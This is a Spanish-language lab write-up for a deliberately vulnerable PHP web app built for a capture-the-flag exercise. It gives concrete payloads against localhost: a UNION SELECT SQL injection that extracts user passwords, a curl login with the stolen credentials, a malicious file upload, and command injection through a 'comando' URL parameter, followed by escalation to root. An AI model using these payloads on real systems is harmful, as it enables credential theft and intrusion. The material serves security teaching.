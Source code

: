 Este proyecto ha acabado con mi salud mental

poner los archivos en home
abrir una terminal
HACER:
chmod +x setup......
./setup.....

chmod +x automatizado......
./automatizado.....





WRITEUP:
### WriteUp para la solución del sistema vulnerable y explotación de RCE

#### Descripción general del sistema

Este trabajo consiste en la creación de un sistema web vulnerable basado en PHP, con un fallo de seguridad que permite ejecutar código remoto (RCE) en el servidor web, en este caso bajo el usuario `www-data`, que es el mismo usuario que ejecuta el servicio Apache. Este sistema tiene una serie de fallos concatenados que permiten la explotación del sistema para obtener una shell con privilegios elevados. Además, el sistema está configurado para almacenar dos flags: una en `/home/www-data/user.txt` (flag de usuario) y otra en `/root/root.txt` (flag de root).

#### Objetivos del trabajo

1. **Vulnerabilidad Web (RCE)**:
   Se crea un sistema web vulnerable con PHP, donde se permite la ejecución de código malicioso a través de la concatenación de varios fallos de seguridad, como un fallo en el manejo de entradas no sanitizadas o inyecciones de comandos. 
   
2. **Elevación de Privilegios**:
   Se ha utilizado para la elevación de privilegios:
   - **gtfobins**: Se proporciona una configuración que explota una vulnerabilidad de una herramienta estándar (por ejemplo, un binario como `python`, `gcc`, etc.) para elevar los privilegios de `www-data` a root.

3. **Generación y almacenamiento de flags**:
   Las flags se generan aleatoriamente y se almacenan en los archivos `/home/www-data/user.txt` y `/root/root.txt`. Estos archivos contienen las flags que se deben capturar una vez que se exploten las vulnerabilidades.

#### Paso 1: Instalación del sistema vulnerable

El sistema está configurado para que se ejecute automáticamente en el arranque. Se utilizan los siguientes componentes:

1. **Apache2 y PHP**: El servidor Apache se instala y configura para que sirva el sistema web. El script `putFlags.sh` configura Apache para que se ejecute en el usuario `www-data` y genera las flags de usuario y root.

2. **Vulnerabilidades en PHP**:
   El sistema web se encuentra vulnerable a inyecciones SQL y ejecución de comandos. El primer paso consiste en acceder a la URL que contiene un fallo de inyección SQL para extraer las credenciales de los usuarios del sistema.

#### Paso 2: Explotación de la vulnerabilidad (RCE)

1. **Explotación de Inyección SQL**:
   En el script `automatizado.sh`, se realiza una solicitud HTTP con una inyección SQL en el parámetro `rover_id`:
   ```bash
   fetch_url="http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=%27e%27%20UNION%20SELECT%20fa.contrasena,%20fa.gmail,%201,%202,%203%20FROM%20final_usuarios%20fa,%20final_administradores%20f%20WHERE%20f.usuario_id%20=%20fa.id"
   ```
   La inyección SQL utiliza `UNION SELECT` para combinar las tablas `final_usuarios` y `final_administradores` y extraer las contraseñas (`fa.contrasena`) y los correos electrónicos (`fa.gmail`) de los usuarios. Esta información se extrae utilizando `jq` para manejar la respuesta JSON y extraer los valores de las credenciales.

2. **Login de administrador**:
   Los datos obtenidos de la inyección se usan para realizar un login automático con `curl`, enviando las credenciales extraídas del ataque:
   ```bash
   curl -X POST \
        -d "email=$rover_id" \
        -d "contrasena=$photo_id" \
        -d "es_administrador=on" \
        -c cookies.txt \
        "$login_url"
   ```
   Esto permite al atacante obtener acceso como administrador en la web.

3. **Subida de archivo malicioso**:
   Una vez autenticado, el atacante sube un archivo malicioso (`gdb.sh`) al servidor mediante una solicitud POST:
   ```bash
   curl -X POST -F "profile_picture=@gdb.sh" http://localhost/web/final/dashmin/upload.php
   ```
   Este archivo contiene un script que intentará ejecutar comandos en el servidor, probablemente con la intención de obtener una shell.

4. **Ejecución de comando**:
   El script luego realiza una llamada a la URL que ejecuta comandos en el servidor (`files_url_root`) para ejecutar el archivo malicioso subido. El comando intenta cambiar permisos del archivo `gdb.sh` para hacerlo ejecutable y luego lo ejecuta:
   ```bash
   files_url_root="http://localhost/web/final/dashmin/list_uploads.php?comando=ls%20uploads%3B%20cd%20uploads;chmod%20744%20gdb.sh;./gdb.sh"
   ```

#### Paso 3: Elevación de privilegios

1. **Elevación usando gtfobins**:
   Alternativamente, se puede usar una herramienta como `gtfobins` para explotar una vulnerabilidad en un binario del sistema que permita a `www-data` ejecutar comandos como root. Esto depende de la configuración del sistema y de los permisos del binario.

#### Paso 4: Captura de las flags

Una vez que se obtiene acceso con privilegios elevados (por una vulnerabilidad gtfobins), el atacante puede leer las flags desde los archivos `/home/www-data/user.txt` y `/root/root.txt`. Esto se realiza mediante la ejecución de comandos como `cat` o cualquier otro método para acceder a esos archivos.

- **Flag de usuario**: Se encuentra en `/home/www-data/user.txt`.
- **Flag de root**: Se encuentra en `/root/root.txt`.

#### Paso 5: Solución a la vulnerabilidad

Para solucionar las vulnerabilidades, se deben tomar varias medidas, como:

1. **Sanitización de entradas**: El sistema debe validar y sanitizar todas las entradas de los usuarios para prevenir inyecciones SQL y de comandos.
2. **Configuración de permisos**: Se deben revisar y ajustar los permisos de los binarios críticos y de los archivos, para que no sea posible la ejecución de comandos arbitrarios por parte del usuario `www-data`.
3. **Desactivar funcionalidades inseguras**: Desactivar funciones de PHP o cualquier otra funcionalidad que permita la ejecución de código arbitrario.

#### Conclusión

Este trabajo muestra cómo un sistema web vulnerable puede ser explotado utilizando inyecciones de SQL, subida de archivos maliciosos y técnicas de escalada de privilegios, como el uso de vulnerabilidades de buffer overflow o configuraciones inseguras de binarios. La explotación de estas vulnerabilidades permite obtener acceso completo al sistema, incluyendo la obtención de las flags de usuario y root.

Este tipo de ejercicios es clave para aprender sobre la seguridad informática, ya que permite identificar y remediar vulnerabilidades comunes en aplicaciones web y sistemas.

